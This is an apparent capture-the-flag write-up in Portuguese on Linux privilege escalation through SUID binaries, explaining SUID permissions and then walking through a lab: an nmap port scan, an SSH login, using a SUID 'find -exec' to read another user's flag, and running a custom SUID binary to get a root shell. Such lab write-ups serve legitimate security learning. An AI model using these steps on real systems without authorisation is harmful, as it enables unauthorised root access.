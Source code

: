 # _**Contexto de Escalação de Privilégios**_
Os sistemas de computador são projetados para serem usados ​​por múltiplos usuários, e privilégios significam o que um usuário tem permissão para fazer. Privilégios comuns incluem visualizar e editar arquivos ou modificar arquivos do sistema  

<mark>O escalonamento de privilégios</mark> é o ato de explorar um _bug, falha de projeto ou descuido de configuração em um sistema operacional ou aplicativo de software_ para obter acesso privilegiado a recursos que normalmente são protegidos de um aplicativo ou usuário 

***

**SOBRE O SUID**  

Definir o **ID** de usuário do proprietário na execução é um tipo especial de permissão de arquivo concedida a um arquivo  
Quando um usuário executa um programa, desde que tenha os direitos corretos de _leitura/execução_, ele será executado usando os privilégios da sua conta  
O **SUID** permite que um usuário execute um programa usando os privilégios de outro usuário  

Em alguns casos, podemos aproveitar a vantagem de ter um arquivo executado como outro usuário para executar comandos como ele  
Você pode estar se perguntando: por que permitir que alguém execute um arquivo como outro usuário?  
No entanto, precisamos que certos binários sejam executados como _root_ por um usuário sem privilégios  

Se um binário tiver o bit **SUID definido**, aparecerá um _s_  
Se verificarmos as permissões de arquivo do binário ```passwd```, podemos ver que as permissões são <mark>-rwsr-xr-x</mark>  

![](suid_bin.jpg)  

O <mark>bit SUID</mark> é definido na permissão de execução, o que significa que quando um usuário executa este comando, ele será executado como o proprietário do arquivo (que é root)  
Essencialmente, os arquivos SUID são executados com a permissão do proprietário do arquivo  

***

**ABUSANDO DE PERMISSÕES SUID**  

Alguns administradores definem o bit SUID manualmente para permitir que determinados programas sejam executados como eles  
Digamos que você seja um administrador de sistema e um usuário sem privilégios queira executar um programa que exija privilégios mais altos  
Ele pode definir o bit SUID para que o usuário sem privilégios possa executar o programa sem precisar definir nenhuma permissão de conta adicional  
Podemos varrer todo o sistema de arquivos para encontrar todos os arquivos com o bit SUID definido, com o seguinte código:
> ```bash
> find / -user root -perm -4000 -exec ls -ldb {} \;
> ```

O comando _find_ possui um parâmetro onde pode executar comandos  
Assim, ao encontrar um arquivo, ele **listará suas permissões**  

A saída revelará algo semelhante a isto:  

![](find_command.jpg)  

Podemos ver alguns binários executados como _root_, que são programas legítimos com as permissões corretas definidas para executar uma tarefa corretamente  
Se um administrador de sistema tiver definido manualmente um <mark>bit SUID em um binário</mark>, o código acima o encontrará  
Talvez haja um arquivo personalizado criado por outro usuário que executa como root?  
Você pode usar este programa para _aumentar seus privilégios_ ou executar comandos que normalmente não conseguiria  

# _**Parte 2: Execução**_
Primeiramente, executamos uma varredura para descobrir em qual porta o SSH está configurado
> ```bash
> nmap -p- -T5 [ip_address]
> ```

Após algum tempo, temos o retorno  
Na porta 65534, SSH está funcionando  
Como já temos o usuário e senha para conexão, basta digitar o comando e colocar a senha  
> ```bash
> ssh -p 65534 holly@[ip_address]
> ```

Com o login feito, primeiro, vemos em qual diretório estamos e listamos seu conteúdo  
Em seguida, vamos ao que interessa, _/home/igor/flag1.txt_  

Ao tentar ler este arquivo, temos permissão negada, porém, com as dicas anteriores, podemos executar os comandos abaixo para retornar o conteúdo do arquivo
> ```bash
> touch password
> ```
> ```bash
> find password -exec cat /home/igor/flag1.txt \;
> ```
Achamos a primeira flag  
Para a segunda flag, temos que ler o conteúdo do arquivo _/root/flag2.txt_, mas para isso, precisamos de acesso _root_  
Vasculhando os arquivos com o comando abaixo, temos que _/usr/bin/system-control_ tem permissões de SUID e execução  
> ```bash
> find / -user root -perm -4000 -exec ls -ldb {} \;
> ```

Executando o arquivo e digitando _/bin/bash_, conseguimos acesso _root_  
Basta um ```cat /root/flag2.txt``` para descobrir a segunda flag  
